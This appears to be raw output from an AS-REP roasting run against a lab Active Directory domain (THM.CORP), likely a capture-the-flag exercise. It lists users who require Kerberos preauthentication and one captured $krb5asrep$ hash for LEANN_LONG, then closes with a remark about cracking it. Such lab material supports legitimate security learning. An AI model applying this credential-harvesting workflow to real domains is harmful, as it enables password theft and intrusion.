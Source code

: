 [-] User RICO_PEARSON doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User DARLA_WINTERS doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User ANDY_BLACKWELL doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] invalid principal syntax
[-] User CHERYL_MULLINS doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User LETHA_MAYO doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User HORACE_BOYLE doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User CHRISTINA_MCCORMICK doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User 3811465497SA doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User MORGAN_SELLERS doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User MARION_CLAY doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User 3966486072SA doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User TED_JACOBSON doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User AUGUSTA_HAMILTON doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] User TREVOR_MELTON doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
$krb5asrep$23$LEANN_LONG@THM.CORP:3a15ce4d19ee17eaf6b6fbd8b2e6e5ac$b15dbb11b1bd741b9babb3432ce9fe2618ba08e846acf75de5f708b3011f9af5035eb3a0b5e39d6491a3b5cfa2c08e379eed95186e260cadc260cdaa7cd9f94a6891dabe8ddcfd304cbb8d981f9ee3fff4da5d9e127233e9d8182dae0fa687740f72153940cae7fe6691174d8440d38f4585945088e6f52b03869845dd0dab40e409232c07d68732d361de20764cbba558d87994e98965948a693227a5ced59f2236335be8a8586bedc3a51b4bff8c4da8f7c2c355a9587be4d85632c78cf102ce152306ebafead819d4b1c4286bf30031cf89b6690e03be0cbb70bae4347ca93b1c4f35
[-] invalid principal syntax
[-] User RAQUEL_BENSON doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] invalid principal syntax
[-] User AUTOMATE doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax

-------------------------------------------------------------------------------------------------------------

lets get crackalacking
